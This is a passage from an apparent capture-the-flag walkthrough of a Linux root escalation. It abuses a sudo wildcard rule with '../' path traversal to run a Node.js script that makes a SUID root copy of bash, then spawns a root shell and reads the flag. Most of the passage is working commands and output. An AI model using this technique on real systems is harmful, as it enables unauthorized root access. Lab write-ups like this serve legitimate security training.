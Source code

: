```
```

### Malicious JS Script

The issue here is that while the admin clearly wanted to only allow angoose to run scripts from that directory, `*` will match on `../` as well, so I can run any JS on the filesystem.

I’ll write a short JavaScript file that will create a copy of `bash`, set it to owned by root, and make it SetUID to run as root:

```

require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')

```

Now I run that with `sudo`:

```

angoose@stocker:~$ sudo node /usr/local/scripts/../../../dev/shm/0xdf.js 
angoose@stocker:~$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1183448 Jun 12 16:56 /tmp/0xdf

```

`/tmp/0xdf` is there, owned by root, and has the `s` in the owner execute field.

I’ll run it with `-p` to keep privs, and get a shell as root:

```

angoose@stocker:~$ /tmp/0xdf  -p
0xdf-5.0#

```

And the root flag:

```

0xdf-5.0# cat root.txt
c779fc97************************

```